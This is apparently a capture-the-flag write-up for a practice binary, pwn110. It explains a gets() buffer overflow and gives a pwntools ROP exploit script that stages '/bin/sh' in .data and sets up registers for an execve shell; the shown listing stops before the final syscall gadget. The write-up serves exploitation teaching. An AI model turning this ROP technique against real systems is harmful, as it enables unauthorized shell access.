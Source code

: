 Looking at the code, we realize that at least the `main()` function doesn't use stack canary.

This is good, as this function is vulnerable to buffer overflow, since it uses `gets()`.

### Exploit

The problem with this exploit is that we don’t have glibc, and we cannot find any readily available string with `“bin/sh”`.

We have at least 2 ways to exploit this binary.

#### Method 1: `execve()`

In this case, we force the program to call `execve()`  passing `/bin/sh` to it.

```python
#!/usr/bin/env python3
#
# Exploit: Buffer overflow ROP on non-PIE statically linked binary, 
# calling execve()
# The strategy is to use .data section as a buffer. Store there:
#   - '/bin/sh\x00', NULL terminated string
#   - address of .data section (i.e., beginning of '/bin/sh\x00')
#   - NULL (0x00 qword)
# Then force the program to call syscall for execve() and pass the parameters
# above as appropriate.

from pwn import *

context.update(arch="amd64", os="linux")

elf = ELF("./pwn110.pwn110")
process = process("./pwn110.pwn110")
# process = remote("xxx", 9010)


# We will use the .data section of the process as a buffer
data_section_addr = elf.get_section_by_name('.data').header.sh_addr

# Smash the stack
payload = b'A' * 40
# Load the address of the .data section in rdi
payload += p64(next(elf.search(asm('pop rdi; ret;'))))
payload += p64(data_section_addr)
# Load '/bin/sh\x00' (8 bytes) in rdx
payload += p64(next(elf.search(asm('pop rdx; ret;'))))
payload += b'/bin/sh\x00'
# Copy '/bin/sh\x00' (in rdi) to the address pointed by rdi
payload += p64(next(elf.search(asm('mov qword ptr [rdi], rdx; ret;'))))
# Load the address of .data section in rax, copy rax right after '/bin/sh\x00'
# (i.e., .data + 8)
payload += p64(next(elf.search(asm('mov rax, rdi ; ret;'))))
payload += p64(next(elf.search(asm('mov qword ptr [rdi + 8], rax; ret;'))))
# Clear rax. Load .data + 0x10 in rdx, write NULL (in rax) to that location
# This is the NULL pointer for envp[] (see below)
payload += p64(next(elf.search(asm('xor rax, rax; ret;'))))
payload += p64(next(elf.search(asm('pop rdx; ret;'))))
payload += p64(data_section_addr + 0x10)  # argv[1]
payload += p64(next(elf.search(asm('mov qword ptr [rdx], rax; ret;'))))
# Load .data + 0x08 in rsi. rsi now points where the address of .data is
# This will be our *argv[]
payload += p64(next(elf.search(asm('pop rsi; ret;'))))
payload += p64(data_section_addr + 0x08)  # argv[0]
payload += p64(next(elf.search(asm('pop rax; ret;'))))
# Call syscall with execve() on /bin/sh
# rax = 0x3b (59d sys_execve)
```